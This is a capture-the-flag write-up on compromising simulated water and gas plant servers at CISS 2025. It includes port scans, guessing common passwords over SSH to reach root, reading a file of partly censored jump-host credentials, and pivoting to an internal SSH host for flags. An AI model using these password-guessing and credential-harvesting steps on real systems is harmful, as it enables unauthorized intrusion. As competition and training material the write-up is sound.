




# CISS 2025 - SWat & GASP

Before starting with the technical details of how both the SWaT and GASP servers were compromised, we'd like to give a short explanation of what these two systems are and
why there is only one writeup for both the water and gas/fire categories of the CTF.

SWaT is a simulated water purification plant and GASP is a simulated gas compression plant.
Both servers host an HMI that can be accessed via browser on port 3000 which is designed to both display the status of connected devices and output flags when tasks are completed.

The way GASP was solved fully depends on information only obtainable after hacking into SWaT. Because of this
it makes little sense to write separate writeups for each, hence they have been combined into one.

We do not know whether the path we took was actually intended, but we *did* contact support after
compromising SWaT. Since they permitted us to continue, we do assume this is an intended solution.
And while one might not learn many OT specific hacking tricks by reading the below text, it shows very well
that an attacker will always take the path of least resistance. ;D

## Access to the Targets

The CISS had a slightly different method of access to the challenge machines than one would have suspected.
In order to reach the target system, each team got a shared SSH user on both a jump host and a Kali VM within the network.
While the full network was larger then what is shown here, the below diagram gives a short overview of the relevant machines.



## Enumeration

As the typical first step, both servers' ports were scanned.

```bash
sudo nmap -A -p - -T 4 -Pn 200.200.200.100 | tee swat_nmap.log
sudo nmap -A -p - -T 4 -Pn 200.200.200.120 | tee gasp_nmap.log
```

From the scan results, we identified the following services:

- On SWaT, the exposed services were SSH, a web interface on port 3000, a MySQL database, an InfluxDB instance and 67 open ZeroMQ ports.
There were some additional unidentifiable ports, but they have not been inspected in more detail since the server was rooted before that became necessary.

- For GASP the setup was similar but there was no SSH service. Additionally, it hosted a Uvicorn API over port 8000.

Enumeration continued with the web interface on port 3000. To make it a little easier to access, that port was forwarded to the attackers own machine.

```bash
ssh -L 3000:200.200.200.100:3000 -i ciss -p 4637 -J cissrt37@users.ncl.sg cissrt37@x3550.ddns.comp.nus.edu.sg
```

This allowed it to open the HMI interface with Burpsuite by visiting `localhost:3000`.


The panel did specify to be in "*Control*" mode, but any web requests that attempted to make changes were blocked by the server.
It was confirmed with CISS staff that this behavior is intended.

Reading through the frontend's source code, we eventually found an absolute Unix file path containing the username `student`.
This single piece of information is our foothold.



## Compromising SWaT

Normally, finding just a username with no password or key file attached is not too useful since usernames are not supposed to be secret
information and should be properly protected by the credentials that are set for them.
However, since the discovered username is a Unix user and SSH is available to the target, it qualified for some default checks.
When running those, we did not expect much from it, but it did end up giving us root access to the SWaT server.

A valuable lesson learned from that success is that it should never be *assumed* something would not work without actually having tested it.

The mentioned checks include testing the most common passwords. Personally, I like to use the first ten passwords from `rockyou.txt`, but another
decent idea would be to look up the most used passwords of the current year.

```bash
head -n 10 /usr/share/seclists/Passwords/Leaked-Databases/rockyou-05.txt
```

As it turns out, the password for the user `student` is `abc123`. Huh.

On top of that, `student` also has full sudo permissions on the target. Huh 2x.

```txt
cissrt37@ciss-tx:~$ ssh student@200.200.200.100
student@200.200.200.100's password:
Welcome to Ubuntu 23.04 (GNU/Linux 6.2.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Wed Jul 30 17:01:10 2025 from 200.200.200.1
student@ciss-swatvm:~$ id
uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),118(lpadmin)
student@ciss-swatvm:~$ sudo -l
[sudo] password for student: 
Matching Defaults entries for student on ciss-swatvm:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User student may run the following commands on ciss-swatvm:
    (ALL : ALL) ALL
```

And just like that, the reward for reading JavaScript for 3 hours is full root access to the target server.
A directory listing shows a file called `flag_publish.py`. Printing the contents of this file
reveals 5 different flags for the SWaT category including some comments to let you know which flag is
for what question.

```txt
student@ciss-swatvm:~$ ls
CISS24_SWaT_HMI-main  kill_all_scripts.sh  start_cd_web_hmi.sh     start_web_hmi.sh
ciss_swat.sh          ncl.txt              start_flag_script.sh    test_run.sh
flag_publish.py       nohup.out            start_gnome_web_hmi.sh  thinclient_drives
guru_twin             run_all_scripts.sh   start_historian.sh
instructions.txt      snap                 start_swat_twin.sh
```



It is important to note that the values that are commented out **do not work** and there are in fact two challenges for SWaT that either have no flag attached or have it hidden in a different location.

## Pivoting for the GASP Source Code

Still on the SWaT server, we also discovered a file called `~/ncl.txt`.
Said file contains the instructions and credentials to a secondary jumphost and SSH server.

Since the credentials have not been revoked at the time of me writing this and it is unknown whether access to this secondary
system is still wanted, the credentials have been partially censored here.
It is recommended to run the SSH command from the attacker's own machine instead of the provided shared system,
as adding another two SSH connections to the chain *might* have a negative impact on the connection. ;D

```txt
student@ciss-swatvm:~$ cat ncl.txt 
ssh -p 4506 -J ncl_intern@gateway.ncl.sg ncl@172.18.178.17

�  ncl_intern/i████████████2
�  ncl/9████████████U

```

Unfortunately, executing the above command did not work as expected. Port `4506` appeared to be either closed or blocked by a firewall.
To get a better understanding of what was going on, we connected to the jumphost directly and ran a port scan against the internal IP `172.18.178.17`.
This revealed *a lot* of available SSH ports.

```txt
ncl_intern@gateway:~$ nmap -sC -sV -p - -T 4 -Pn 172.18.178.17
[...]
PORT     STATE  SERVICE        VERSION
22/tcp   open   ssh            OpenSSH 9.4 (protocol 2.0)
53/tcp   open   domain         (generic dns response: NOTIMP)
113/tcp  closed ident
443/tcp  open   ssl/http       nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Error
| ssl-cert: Subject: commonName=*.ncl.sg
| Subject Alternative Name: DNS:*.ncl.sg, DNS:ncl.sg
| Not valid before: 2025-05-09T00:00:00
|_Not valid after:  2026-05-28T23:59:59
| tls-alpn: 
|   h2
|_  http/1.1
1194/tcp open   openvpn?
2000/tcp open   cisco-sccp?
4204/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4205/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4206/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4207/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4208/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4680/tcp open   ssh            OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
4681/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4682/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4683/tcp open   spike?
4684/tcp open   rfid-rp1?
4685/tcp open   tcpwrapped
4687/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4688/tcp open   mobile-p2p?
4689/tcp open   altovacentral?
4690/tcp open   prelude?
4696/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4697/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
4701/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4702/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4703/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4704/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4705/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4706/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4707/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4708/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4709/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4710/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4711/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4712/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4713/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4714/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4715/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4716/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4717/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4718/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4825/tcp open   ssh            OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
4826/tcp open   ssh            OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
4845/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4846/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4847/tcp open   ssh            OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
4869/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4871/tcp open   ssh            OpenSSH 9.7p1 Debian 7 (protocol 2.0)
4872/tcp open   ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
5060/tcp open   sip?
```

Attempting to connect to each port using the credentials for the user `ncl` provides shell access through port `4204`.

```bash
ssh ncl@172.18.178.17 -p 4204
```

And voilá, there is another file called `flag_publish_gasp_v2.py` stored in the users home directory.

```txt
ncl@ciss-tx:~$ ls
Desktop    Downloads           Music      Pictures  Templates  __pycache__              monitorAgent
Documents  FloatingButtons.js  NavBar.js  Public    Videos     flag_publish_gasp_v2.py  superinit.py
```

This time, there are *all* the flags for the offensive GASP challenges contained within.



## Afterword

While this exploit path effectively allowed us to take first place, we are still uncertain whether it was actually intended.
In case you are wondering, we know that, for at least SWaT, the challenges can be solved using the OPCAU protocol as well.

Both the servers also contained a bunch of rabbit holes like:

- A MySQL database with really weak credentials that can be found in the applications source code
- An IngresDB instance that allows you to create your own user and is vulnerable to a CVE that allows you to dump other users' access tokens (there are none)
- And an Uvicorn API with a single POST endpoint that simply echoes the request body.

There is potential that all of these services can also lead to a solution, but since a simpler method was discovered, we
did not spend too much time testing them.
